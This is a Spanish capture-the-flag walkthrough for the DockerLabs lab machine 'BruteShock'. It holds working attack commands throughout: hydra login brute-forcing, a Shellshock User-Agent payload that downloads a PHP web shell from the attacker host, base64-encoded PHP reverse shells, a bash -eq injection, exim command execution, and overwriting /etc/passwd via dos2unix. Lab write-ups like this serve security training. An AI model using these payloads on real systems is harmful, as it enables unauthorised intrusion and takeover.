 # bruteshock

Hoy resolveremos la máquina "BruteShock" de [DockerLabs](https://dockerlabs.es)

Autor: [Darksblack & maciiii\_\_\_(yo)](https://linktr.ee/maciiii___)

Dificultad: Medio

![BruteShock](./images/bruteshock/img/BruteShock.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Nov  2 15:15:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-11-02 15:15:01 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  2 15:15:09 2024 -- 1 IP address (1 host up) scanned in 8.36 seconds
```

En este caso solo el puerto 80 está abierto y corre `Apache httpd 2.4.62`.

Vamos a la web y no encontramos con lo siguiente:

![web](./images/bruteshock/img/web.png)

Como vemos tenemos un panel de login, y si probamos las credenciales básicas no no sirve, por lo que recurrimos a `hydra`, pero primero revisamos si tenemos cookies:

![cookies](./images/bruteshock/img/cookies.png)

al parecer tenemos una, por la que también se la pasaremos a `hydra` para que haga el ataque: Formato:

```css
hydra -l <user> -P <wordlist> <ip> http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: <nombre de la cookie>=<cookie>:F=<mensaje de error>" -V
```

Aplicado:

```css
hydra -l admin -P /opt/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=4iulq1ru3emdckdsoipiuq413m:F=Credenciales incorrectas." -V
```

![hydra](./images/bruteshock/img/hydra.png)

Ingresamos las credenciales y vemos la siguiente página:

![web2](./images/bruteshock/img/web2.png)

De primeras parece un pishing pero no lo es, si probamos a ingresar algo no pasa nada interesante, pero en el mensaje dice "User-Agent almacenado en el log". Luego de buscar de que puede tratar ([info](https://blog.cloudflare.com/inside-shellshock/)) intento aprovecharlo. Para esto abro burpsuite y pruebo lo siguiente:

1.  Inicio un servidor con python:

    ```css
    python3 -m http.server 8000
    ```
2.  Creo un archivo php que me permita ejecutar comandos al subirlo:

    ```php
    <!DOCTYPE html>
    <html>
    <body>
    <form method="GET">
        <input type="text" name="cmd" placeholder="command">
        <button type="submit">Ejecutar</button>
    </form>
    <pre>
    <?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
    ```
3.  Capturo la petición al entrar a la página y lo envío al repeater(ctrl+r):

    ![request](./images/bruteshock/img/request.png)
4.  Cambio el user-agent por lo siguiente:

    ```css
    () { :; }; curl 172.17.0.1:8000/cmd.php -o cmd.php
    ```

Una vez ejecutado veremos esto:

![python3](./images/bruteshock/img/python3.png)

ahora que la shell se guardó, entramos por el navegador y veremos una página para ejecutar comandos:

![web2](./images/bruteshock/img/web3.png)

ya podemos ejecutar comandos en la máquina victima.

## INTRUSIÓN

Para enviarnos una reverse shell no lo podemos hacer con la típica shell de bash, ya que al parecer la máquina las bloquea, por lo que usaremos la página [revshells](https://revshells.com) y usaremos la de `php exec`, escuchamos en el puerto 443 con netcat (`sudo nc -lvnp 443`) y la enviamos por la web en base64 de la siguiente manera:

```css
echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0Myk7ZXhlYygiYmFzaCA8JjMgPiYzIDI+JjMiKTsn" | base64 -d | bash
```

Una vez enviado habremos ganado acceso.

## ESCALADA DE PRIVILEGIOS

#### www-data

Para hacer el tratamiento de la tty es un poco distinto, deberemos hacer lo siguiente:

```bash
export SHELL=bash
export TERM=xterm
script /dev/null -c bash
^Z

stty raw -echo; fg
reset xterm
```

Ahora si revisamos los usuarios en la máquina, veremos 3:

`darksblack`

`maci`

`pepe`

Si buscamos cada archivo por cada usuario veremos lo siguiente:

```css
find / -user "darksblack" 2>/dev/null
```

```css
/home/darksblack
/var/backups/darksblack
/var/backups/darksblack/.darksblack.txt
```

Como vemos tenemos un txt el cual si lo leemos es el hash del shadow para el usuario darksblack, por lo que utilizaremos este metodo para crackear la contraseña: [Cracking a shadow password using john the ripper](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)

Una vez completado todos los pasos obtendremos la siguiente contraseña:

![john](./images/bruteshock/img/john.png)

Por lo que escalamos con `su darksblack` e introducimos sus credenciales.

#### Darksblack

Si ejecutamos `sudo -l` veremos que podemos ejecutar como el usuario "maci" un script que se encuentra en su home (por lo que no lo podremos leer), así que lo ejecutamos y vemos que pasa:

![scriptsh](./images/bruteshock/img/scriptsh.png)

Al parecer tenemos que adivinar un numero, este script puede que use un `eq comparer` de bash para verificar si nuestra entrada es correcta, por lo que si el script usó doble corchete para hacerlo, podremos inyectar un comando y escalar, para hacerlo escribiremos lo siguiente en la adivinanza:

```css
a[$(/bin/bash >&2)]+42
```

[Mas Info](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/)

#### Maci

Ahora al ejecutar `sudo -l`, veremos que podemos ejecutar el binario `exim` como el usuario pepe, si investigamos de como escalar encontraremos exploits, pero no son útiles en este caso, ya que exim nos permite ejecutar comandos de la siguiente manera:

```css
exim -be 'x=${run{/bin/id}}'
```

Por lo que si lo ejecutamos con sudo como el usuario pepe, estaríamos ejecutando comandos como ese usuario. Para poder escalar no podemos hacerlo con ejecutar "/bin/bash" o "/bin/bash -p", ya que exim no nos dejará hacerlo, la manera correcta es crear un script en "/tmp/" y que contenga la misma shell de php que usamos para entrar solo que dirigida a otro puerto, la manera simple es esta:

1. Escuchamos con netcat en el puerto 4444
2.  Luego ejecutamos lo siguiente:

    ```css
    echo '#!/bin/bash' > /tmp/script && echo "echo 'cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0NDQpO2V4ZWMoImJhc2ggPCYzID4mMyAyPiYzIik7Jw==' | base64 -d | bash" >> /tmp/script && chmod +x /tmp/script && sudo -u pepe exim -be 'x=${run{/tmp/script}}'
    ```

en resumen el comando crea el script y lo ejecuta como pepe. Una vez ejecutado habremos recibido una shell como el usuario pepe.

#### Pepe

Ahora al ejecutar `sudo -l` veremos que podemos ejecutar el binario `dos2unix` como root, por lo que para escalar deberemos hacer lo siguiente:

1.  Creamos un archivo en `/tmp/` llamado passwd con el contenido de `/etc/passwd` solo que eliminando la "x" de root, una vez creado ejecutamos lo siguiente:

    ```css
    passwd1=/tmp/passwd
    passwd2=/etc/passwd
    ```
2.  Ejecutamos `dos2unix` de la siguiente manera:

    ```css
    sudo dos2unix -f -n "$passwd1" "$passwd2"
    ```

#### Root

Escalamos a root ejecutando `su`.

![root](./images/bruteshock/img/root.png)

Gracias por leer.....
